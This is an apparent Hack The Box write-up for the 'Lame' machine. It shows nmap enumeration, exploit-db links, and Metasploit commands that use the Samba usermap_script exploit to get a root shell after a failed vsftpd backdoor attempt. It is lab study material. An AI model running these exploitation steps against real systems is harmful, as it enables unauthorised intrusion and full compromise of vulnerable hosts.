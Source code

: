 Target: 10.10.10.3

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.3

Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m46s, deviation: 2h49m44s, median: 44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-15T02:31:12-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Findings:Looking for attack vectors

The victim machine runs outdated versions of ftp, ssh, and smbd. 
Look for possible exploits for these three services.


## Foothold:

exploit links:

[vsftpd 2.3.4](https://www.exploit-db.com/exploits/17491)

[samba 3.0.2](https://www.exploit-db.com/exploits/16320)


Metasploit
```
$ msfconsole
```

searching for vsftpd 2.3.4 exploits
```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created
```

searching for samba 3.0.2 exploits
```
search samba 3.0.2

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   2  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

```
id

uid=0(root) gid=0(root)
```

```
cat /home/makis/user.txt

<redacted>
```

```
cat /root/root.txt

<redacted>
```
